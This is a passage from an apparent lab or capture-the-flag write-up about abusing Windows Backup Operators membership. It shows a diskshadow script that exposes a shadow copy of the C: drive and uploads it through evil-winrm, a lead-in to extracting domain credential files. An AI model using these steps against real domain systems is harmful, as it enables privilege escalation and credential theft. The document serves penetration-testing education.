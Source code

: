 ```powershell
> net user svc_backup /domain
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
Password changeable          2/24/2020 10:54:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2020 11:03:50 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

Looks like we are apart of the Backup Operators local group. A little research reveals that we can abuse this group to elevate our privileges. More information can be found [here](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group).

First, let's create a script text file that will contain parameters for the `diskshadow` command:

```
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  

create  

expose %mydrive% w:  
end backup
```

We will upload it to the box with `evil-winrm` and use the `diskshadow` command.

```powershell
> upload script.txt
> diskshadow /s script.txt
```
